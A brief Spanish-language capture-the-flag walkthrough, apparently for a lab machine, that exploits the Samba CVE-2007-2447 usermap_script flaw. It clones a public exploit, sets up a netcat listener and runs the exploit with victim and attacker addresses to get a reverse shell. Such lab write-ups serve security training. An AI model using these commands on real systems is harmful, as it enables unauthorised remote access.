 #CVE-2007-2447

------
# Enumeracion
No encontramos una forma valida de hacerla

------------
# Explotacion

[Exploit hecho por amriunix](https://github.com/amriunix/CVE-2007-2447)(Para python2.7)

Clonamos el repositorio en nuestra maquina ``git clone https://github.com/amriunix/CVE-2007-2447.git``
Instalamos la libreria pysmb con el comando ``pip install pysmb``

Entramos a la carpeta del repositorio y solamente nos falta ejecutar el exploit mientras estamos en escucha con [[nc -nlvp 443]]
```
python2.7 usermap_script.py IpMaquinaVictima PuertoMaquinVictima IpDeNuestraMaquina PuertoDeNuestraMaquina
python2.7 usermap_script.py 10.10.10.3 445 10.10.16.10 443
```
![[Lame10.png]]
